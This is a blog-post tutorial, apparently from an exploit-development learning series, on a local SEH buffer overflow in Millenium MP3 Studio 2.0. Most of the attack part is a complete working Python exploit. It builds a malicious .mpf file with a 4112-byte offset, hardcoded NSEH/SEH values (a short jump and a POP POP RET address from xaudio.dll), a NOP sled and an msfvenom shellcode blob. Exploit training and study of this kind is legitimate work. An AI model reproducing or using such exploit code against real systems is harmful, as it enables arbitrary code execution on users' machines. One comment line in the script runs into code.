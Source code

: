 ```yaml
---
layout: single
title: Local SEH overflow exploitation - Millenium MP3 Studio 2.0
---
```


**Getting started**

Start by attaching an immunity debugger to the running MP3 Studio process.

![local seh 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh1.png)

The basic concept for exploiting a local Structured Exception Handler based buffer overflow, is that you will create a malicious text file that includes the payload that you were going to manually enter into a vulnerable input field, or instead of a text file, you will generate a malicious payload embedded within something other than a text file, for example this target application includes a buffer overflow when parsing certain types of data files, with an .mpf file extension, we will generate our malicious payload.

We can start the exploitation process by creating a basic python script that opens up a new file, and inputs a large buffer of data into it.

```python
from struct import *

malicious_file = "evil.mpf"

payload = "A" * 10000 # the maliciously large buffer

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
except:
    print("[!] Error creating the exploit")
```

After running the newly-created script, you can now open this malicious .mpf  File in the MP3 Studio application, while the MP3 Studio application is still attached to immunity to bugger. Now you should be able to witness the buffer overflow vulnerability Being triggered, and you should experience an exception crash.

![local seh 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh2.png)

If you look at the stack panel within Immunity, you can see the malicious payload has been written on to the stack.

![local seh 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh3.png)

In order to actually exploit this, you need to obtain a POP POP RET  gadget, this can be done with MONA.py  via the !seh -n  command.

Running this command will search through the program for the needed sequence, this sequence will return execution flow back to the structured exception Handler, the goal is to overwrite both the exception Handler and the next structured exception Handler. 

![local seh 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh4.png)

And the next structured exception Handler will be overwritten with this sequence that we discover, returning normal flow back to the user-controlled structured exception Handler, which you can then add a short jump over the next structure exception Handler, which then jumps into a NOP sled and to your final shellcode payload

The last important thing to do before actually constructing the final bits of this exploit, is to use the Metasploit pattern_create and pattern_offset tool in order to calculate the buffer size that you're triggering with this buffer overflow vulnerability

```
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

Now you can pop a calculator through this local SEH overflow.

![local seh 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh5.png)
